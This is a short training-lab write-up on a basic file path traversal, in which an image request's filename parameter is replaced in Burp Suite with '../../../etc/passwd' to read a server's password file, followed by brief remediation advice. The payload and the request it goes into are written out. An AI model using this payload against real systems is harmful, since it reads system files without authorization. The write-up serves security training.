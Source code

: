 ## 🧪 Lab: File Path Traversal - Simple Case  
**Level**: Apprentice  
**Date**: June 11, 2025  
**Goal**: Read `/etc/passwd` using path traversal.

---

### 🧰 Tools
- Burp Suite (Repeater / Interceptor)

---

### 🧭 Steps

1. **Find and intercept vulnerable image URL**
   - Navigate the product page and locate an image request like:
     ```
     GET /image?filename=218.png
     ```

2. **Send to Repeater**

3. **Inject traversal payload**
   - Replace filename with:
     ```
     ../../../etc/passwd
     ```

4. **Send request**
   - Response returns system file contents:
     ```
     root:x:0:0:root:/root:/bin/bash
     ...
     ```

---

### 💣 Payload
```
../../../etc/passwd
```

---

### 🔒 Remediation
- Sanitize user input.
- Avoid direct file access using user-supplied values.
